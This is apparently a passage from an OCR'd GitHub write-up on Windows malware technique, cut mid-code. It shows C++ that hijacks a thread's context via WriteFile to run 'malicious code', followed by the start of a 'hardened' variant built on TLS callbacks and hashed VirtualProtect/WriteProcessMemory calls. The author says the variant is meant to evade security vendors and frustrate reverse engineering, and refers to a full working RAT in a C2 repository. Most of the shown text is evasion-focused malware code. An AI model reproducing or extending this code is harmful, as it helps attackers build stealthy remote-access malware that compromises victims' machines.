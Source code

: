 ```cpp
						NULL
	);

	// Setting our argumetns for SetThreadContext
	HANDLE hStdOut = ((HANDLE)(LONG_PTR)-2);
	const char* message = "Hello World!";
	OVERLAPPED ovrlp = { 0 };
	threadContext.Rsp = (DWORD64)RetRSP();
	ovrlp.hEvent = &threadContext;
	WriteFile(hStdOut, message, strlen(message), NULL, &ovrlp);
	return 0;
}

void myFunc(){
	// code execution will jump here from WriteFile
}

```

That's it, that's how I've used the concept  impersonation and 
thread manipulation to execute malicious code. 
For real world implementation some security vendors may 
still flag for malicious activity, so I've wrote an hardened version
of this concept that leverage TLS callback chains and API Hashing to
make the work of detecting and reversing more of a pain before 
even approaching the main idea of the impersonation.

Here's a general overview of what it looks like.
Full Working RAT implementation as an organized  
project can be referenced in my C2_Dump repository.

```cpp 

#include<windows.h>
#include<iostream>

/*************************************************
* TLS Setup                                      *
*************************************************/

// letting the linker know we are using TLS callbacks
#ifdef _WIN64
#pragma comment (linker, "/INCLUDE:_tls_used")
#pragma comment (linker, "/INCLUDE:tls_callback_func")
#else
#pragma comment (linker, "/INCLUDE:__tls_used")
#pragma comment (linker, "/INCLUDE:_tls_callback_func")
#endif


void	tls_callback1(PVOID hModule, DWORD dwReason, PVOID pContext);
void* tls_callback_secret(PVOID hModule, DWORD dwReason, PVOID pContext);


EXTERN_C typedef BOOL(NTAPI* VirtualProtect_t)(
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD  flNewProtect,
    PDWORD lpflOldProtect
    );

EXTERN_C typedef BOOL(NTAPI* WriteProcessMemory_t)(
    HANDLE  hProcess,
    LPVOID  lpBaseAddress,
```